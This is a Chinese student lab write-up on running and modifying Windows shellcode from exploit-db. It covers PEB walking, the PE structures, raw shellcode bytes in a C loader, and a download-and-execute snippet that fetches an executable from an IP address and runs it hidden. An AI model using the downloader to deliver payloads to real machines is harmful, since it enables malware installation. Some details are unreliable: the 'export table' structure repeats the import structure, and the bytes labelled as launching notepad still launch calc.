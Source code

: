 # 第一次实验

## 实验环境

* visual studio 2010(win10)
* Kali

## 实验要求
 
  + [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中的shellcode成功运行
  + [x] 汇编源码编译通过并成功dump
  + [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
  + [x] 修改shellcode功能为记事本程序notepad.exe
  + [ ] （可选）修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

## 实验过程
****
### step1 在vs里成功运行原shellcode中的.c文件
* 运行结果展示

![](images/calc.jpg)

****

### step2 汇编源码编译通过并成功dump
* 在自己虚拟机（Kali）中编译汇编源码：
  
    `sudo vim source.asm`

    将链接中的编译源码导入后执行以下代码即可得到code[]
    `nasm -f win32 source.asm -o source.o`

    `for i in $(objdump -D source.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
* 运行结果展示

![运行结果](images/source_asm.png)

****

### step3 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理

* windows PEB结构体数据结构
```C++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```
* PE导入表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* PE导出表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* 参照[博客](https://www.freebuf.com/articles/system/93983.html)逐步学习了解shellcode原理




****

### step4 修改shellcode功能为记事本程序notepad.exe
**1-->修改编译源码相应位置，在Linux虚拟机中运行**
* kali中修改编译源码的位置
  
![修改代码](images/change.png)

* 修改后执行结果展示

![运行结果](images/hello_asm.png)

**2-->修改原.c文件code[]数组，并成功运行**
  
  * 由1得到code[],进而在vs中修改后的.c文件
```C++
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    func = int( code);
    (int)(*func)();
}
```
* 运行结果展示
![运行结果](images/notepad.jpg)


### step5 修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

* C语言实现方式
```C++
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
int main()
{
HMODULE hurlmod=LoadLibrary("urlmon.dll");
MY_DOWNLOAD_PROC function_ptr=
(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod,"URLDownloadToFileA");
function_ptr(NULL, "http://10.196.7.115/ov.exe", "a.exe", NULL, NULL);
WinExec("a.exe", SW_HIDE);
return 0;
} 
```
**汇编源码编写思路**
~（编码实现难度有点大，函数调用和传参方面存在问题，在这先写一下自己读相关[ 博客 ](https://zhidao.baidu.com/question/1735310477657776627.html)后整理的实现思路~）

* step1.动态获得`kernel32.dll`地址 
利用PEB结构来获得kerner32.dll的地址，具体通过寄存器指向TEB结构；在TEB+0x30地方指向PEB结构；在PEB+0x0C地方指向PEB_LDR_DATA结构，在PEB_LDR_DATA+0x1C地方是一些动态连接库的地址，第二个就是kernel32.dll地址。


* step2.获取`GetProcAddress`函数的地址
GetProcAddress函数是从系统文件kernel32.dll中导出的，kernel32.dll导出表中有GetProcAddress函数的地址。

* step3.获取`LoadLibrary`的地址并查询相关函数地址
通过构造查找到LoadLibrary地址，并调用LoadLibrary来加载`urlmon.dll`，进而查找动态库urlmon.dll内置函数`URLDownLoadToFileA`的地址。同样可以通过GetProcAddress获取`WinExec()`及`ExitProcess()`地址。

* step4.向各类函数传递参数，实现调用。